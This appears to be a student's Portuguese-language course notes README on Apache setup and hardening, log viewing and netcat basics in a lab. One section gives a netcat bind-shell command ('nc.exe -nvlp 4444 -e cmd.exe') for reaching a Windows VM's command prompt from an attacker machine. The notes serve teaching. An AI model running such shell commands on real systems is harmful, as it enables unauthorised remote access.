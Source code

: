 # FIAP-Cyber

#### Resumo colega: https://www.notion.so/flaviovicentin/Cybersecurity-b35d9c73f60249cdb12c28dc66c0d06a

## Resumo de Comandos

### Updates/Installs
> apt install update

> apt install upgrade

> apt install apache2 apache2-utils -y

> apt install net-tools

- Iniciar o servidor:
service apache2 start

### Notes CP01

- Entrar no diretório padrão do servidor html:
cd /var/www/html

- Vamos renomear o index.html para copial.html:
mv index.html copia.html

- Gerar a primeira falha de segurança no webservice:
- Vamos criar arquivos na pasta padrão do webservice e ver eles exibidos do lado do cliente:
touch bkp.txt cadastro.php

- criar o index.html, com o editor de texto do Linux – nano, e ver o que acontece com o webservice:
nano index.html

*RESOLVENDO PROBLEMAS DE SEGURANÇA*

1. OCULTAR AS PASTAS PARA OS CLIENTES:
nano /etc/apache2/apache2.conf

- Remover o INDEXES para não exibir mais as pastas disponíveis para os clientes.

- Restart o webservice apache:
service apache2 restart

- Alterar a configuração do banner no apache:
nano /etc/apache2/conf-enabled/security.conf

- Por padrão o apache vem com o token como o Sistema Operacional (SO) deseja e a assinatura online. 
- Mas por medida de segurança, devemos alterar para o modo de Produção.:
Trocar de "ServerTokens OS" para "ServerTokens Prod" e desligar a assinatura "ServerSignature Off"

- Subir o servidor python na porta 8080
python3 –m http.server 8080

VER LOGs do SERVIDOR APACHE
1. No apache, ele existe o caminho padrão das pastas
cd /var/log/apach2
ls
8. Vamos monitorar o servidor e ver como ele vai agir.
tail –f access.log

### Instalação e Configuração

- Instalar o Netcat:
apt install netcat

- Iniciar um servidor HTTP em Python na porta 8080:
python3 -m http.server 8080

### Comandos Básicos

- Estabelecer uma conexão TCP com um host:
nc -v 192.168.1.10 8080

- Mostrar informações detalhadas sobre as conexões:
OPTIONS / HTTP/1.0
GET / HTTP/1.1

- Mostrar as conexões de rede:
netstat -nltp

### Manter Conexão com o Servidor

- Enviar uma requisição OPTIONS e manter a conexão:
printf "OPTIONS / HTTP/1.0\r\n\r\n" | nc 192.168.1.10 80

- Verificar o IP do webserver em Python:
ip -br -c a

### Chat Simples

- Abrir uma porta para o servidor:
nc -lvp 1234

- Interagir com a porta do servidor:
nc -v 192.168.1.10 1234

### Transferência de Arquivos

- Criar e enviar um arquivo do servidor para o cliente:
echo "P4sswd" > senha.txt
cat senha.txt | nc -lvp 1234
nc -v 192.168.1.10 1234 > passwd.txt

- Exibir o hash MD5 do arquivo:
md5sum senha.txt


### Transferência de Executáveis

- Transferir o arquivo nc.exe para uma máquina Windows:
python3 -m http.server 1234
nc -nv 192.168.1.30 4444


- Abrir uma porta no lado do cliente para executar o nc.exe e conectar à máquina do atacante:
nc.exe -nvlp 4444 -e cmd.exe

Certifique-se de adaptar os endereços IP e portas conforme necessário para sua configuração.

### Comandos

- Criação de chat simples (servidor e cliente precisam estar na mesma rede):
nc -lvp 1234
nc -v 192.168.1.10 1234

- Transferir o nc.exe para uma VM Windows:
python3 -m http.server 1234
nc -nv 192.168.1.30 4444

### Enviar Arquivo entre Três Máquinas

Kali > VM01 > VM02

- No Kali, executar o seguinte comando no arquivo desejado:,
nc -l -p 1234 > video.avi

- Na VM01, receber o arquivo da máquina Kali e disponibilizar para a VM02:
nc -v 192.168.1.10 1234 | nc -l -p 4321




